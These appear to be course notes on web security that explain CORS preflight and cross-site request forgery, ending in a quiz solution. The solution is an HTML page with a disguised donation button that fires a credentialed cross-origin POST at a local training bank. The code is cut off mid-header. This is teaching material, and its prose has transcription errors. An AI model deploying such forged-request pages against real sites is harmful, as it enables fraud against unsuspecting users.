 Response:
```
200 OK
Access-Control-Allow-Origin: yourcourselist.com
```
_However, not all requests will be preflighted, requests are made because of image text or forms will not be preflighted._ \
So any kind of get request will be sent straight away, you just won't be able to read the answer, if course doesn't allow it. \
The details about when preflight requests are actually sent with CORS are intricate and extensive, so I'll even link with details in instructor notes.
* [preflight requests and CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS#Preflighted_requests)

Now we have a couple of ways to get around the single origin restriction. If you're ever involved in publishing an API yourself, I'd encourage you to think about CORS from the very beginning and to enable it on your server.

#### 5.9 Security Exploit - CSRF
As we just learned, requests had looked just like they came from a forum will not be pre-flighted. \
You can't read the response if course doesn't allow it. But sometimes you might not need to see the response to wreak havoc. \
Imagine a bank that has a forum to transfer money. If you are not a good person,
all you want to do is wire the money to your own account, you don't care about what the server answers. \
So you set up a website that forges a request of the same URL the forum uses and set the parameters so that the money is wired to you and the user won't even notice. \
That's why this kind of attack is called __cross-sites request forgery__ or __CSRF__.
Of course, banks have sophisticated protection mechanisms but for most purposes,
a CSRF token is protection enough. \
If CSRF token is additional field appended to a form that has been put there by a server and it starts server side as well. If someone is submitting a request, the seller checks that token against the one that has stored and only execute the requests if these tokens match.

#### 5.11 CSRF Quiz
Solution:
```js
<head>
</head>
<body>
  <button>Donate to Umbrella Corp.</button>
  <script>
    var button = document.querySelector('button');

    button.addEventListener('click', function() {
      csrf();
      console.log('Thank you for donation!');
    });

    function csrf(){
      fetch('http://bank.127.0.0.1.xip.io:8080/login', {
	      mode:'no-cors',
        method:'POST',
	      credentials:'include',
        headers: {
          'Host' : 'bank.127.0.0.1.xip.io:8080',
		      'Connection' : 'Keep-Alive',
          'Content-Length': '30',
		      'Cache-Control' : 'max-age=0',
          'Origin' : 'http://bank.127.0.0.1.xip.io:8080',
          'Upgrade-Insecure-Requests' : '1',
          'Content-Type' : 'application/x-www-form-urlencoded',
          'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3397.0 Safari/537.36',
```